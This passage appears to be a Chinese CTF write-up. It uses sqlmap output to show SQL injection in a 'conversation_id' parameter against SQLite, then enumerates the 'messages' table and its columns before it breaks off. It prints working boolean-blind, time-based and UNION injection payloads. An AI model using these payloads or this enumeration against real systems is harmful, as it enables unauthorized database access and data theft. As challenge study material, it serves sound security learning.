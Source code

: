```
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: conversation_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' AND 9576=9576 AND 'VVao'='VVao

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' AND 9128=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'FxGg'='FxGg

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: conversation_id=-5378' UNION ALL SELECT CHAR(113,122,98,118,113)||CHAR(113,115,89,66,81,112,104,66,119,117,82,65,120,72,110,79,69,82,108,103,71,71,90,114,115,116,76,67,72,112,120,84,81,97,121,122,71,66,118,116)||CHAR(113,106,98,98,113),NULL-- ZaFM
---
[17:54:39] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite

```

因为这个题目使用的数据库是SQLite，是脱不出库名的，我们直接脱表

```
$ ... --tables
[17:57:12] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[1 table]
+----------+
| messages |
+----------+
```

脱字段

```
$ ... -T 'messages' --columns
[17:58:33] [INFO] fetching columns for table 'messages' 
Database: <current>
Table: messages
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| contents | text    |
| id       | text    |
| shown    | boolean |
| title    | text    |
+----------+---------+
```

发现有shown字段。那就肯定有展示的和没展示的。把shown和id连带着脱下来：
